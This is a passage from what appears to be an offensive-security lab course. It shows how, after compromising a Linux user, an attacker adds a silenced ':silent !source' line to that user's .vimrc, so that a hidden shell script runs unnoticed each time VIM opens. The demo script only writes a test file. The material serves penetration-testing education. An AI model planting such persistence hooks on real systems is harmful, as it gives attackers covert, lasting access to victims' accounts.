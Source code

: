 As a more stealthy approach, we can leverage the VIM plugin directory. As long as the files have a .vim extension, all VIM config files located in the user's \~/.vim/plugin directory will be loaded when VIM is run.

In our lab machine, let's say we have compromised the _offsec_ user, and we have a working shell.

We can modify the user's .vimrc file in their home directory (or create one if they don't have it) and add the following line.

```
!source ~/.vimrunscript
```

> Listing 4 - Sourcing a shell script in a VIM config file

This will load and run a shell script called .vimrunscript from the user's home directory. In a real-world scenario, it might be useful to pick a file path outside the user's home directory but for simplicity, we'll keep it here.

Next, we can create the shell script file at /home/offsec/.vimrunscript with the following contents.

```
#!/bin/bash
echo "hacked" > /tmp/hacksrcout.txt
```

> Listing 5 - Shell script to source from VIM

The script echoes the word "hacked" to a file called /tmp/hacksrcout.txt.

If we try to run VIM now, we get an obvious debug output message explaining that we're sourcing a configuration file.

```
offsec@linuxvictim:~$ vi /tmp/test.txt
:!source /home/offsec/.vimrunscript

Press ENTER or type command to continue
```

> Listing 6 - A debug message shown when sourcing a shell script in VIM

This is obviously undesirable as it would tip off the user. Luckily, VIM has a built-in command for this, the :silent command.

This command mutes any debug output which would normally be sent to the user when running VIM. We'll change our line in the user's .vimrc file to the following.

```
:silent !source ~/.vimrunscript
```

> Listing 7 - Silencing the debug message

We will remove the previous attempt's /tmp/hacksrcout.txt file and try again. This time when we run VIM, our file opens, and we don't get any suspicious messages.

If we check the /tmp/ directory, we find that our test output file was created successfully.

```
offsec@linuxvictim:~$ ls -al /tmp/hacksrcout.txt
-rw-rw-r-- 1 offsec offsec 7 Jul  8 13:51 /tmp/hacksrcout.txt

offsec@linuxvictim:~$ cat /tmp/hacksrcout.txt 
hacked
```
